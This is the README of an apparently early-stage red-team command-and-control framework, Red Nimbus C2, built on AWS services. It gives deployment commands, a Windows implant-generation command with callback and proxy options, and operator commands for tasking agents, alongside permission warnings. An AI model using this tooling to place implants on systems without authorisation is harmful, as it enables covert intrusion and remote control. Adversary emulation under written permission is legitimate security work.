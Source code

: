 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not expected to be stable or even usable at this time.

`[!] Do not use this tool until this notice is removed.`

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [Go](https://go.dev)
4. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
5. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
6. [Make](https://www.gnu.org/software/make/)
7. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# optionally deploy to a specific AWS account like so:
# make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```

3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r nimbusc2_client/requirements.txt

python3 nimbusc2_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Generate C2 agent
2. Deploy agent to target
3. Issue commands using the Nimbus C2 operator client
4. Cleanup when finished

### 1. Generate C2 Agent

The Red Nimbus C2 agent is executed on target systems.

On execution, the agent calls back to the Red Nimbus C2 infrastructure and establishes a C2 session.

```bash
./nimbusc2-create-agent --format exe \
            --arch amd64 \
            --platform windows \
            --c2url https://aws-api-gateway-url \
            --proxy "http://userName:password123@127.0.0.1:1234" \
            --private-key "change_me_123!$" \
            --callback-schedule "cron_schedule" \
            --kill-date "date" \
            --implant-group myGroupName \
            --allow-target myIntendedTarget \
            --allow-user myTargetUser \
            --out-file nimbus_agent.exe \
            --verbose 
```

### 2. Deploy Agent to Target System(s)

You are responsible for deploying the Nimbus C2 agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

### Interact with Agent Sessions

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

### Issue Commands to Agents

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

TBD

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```
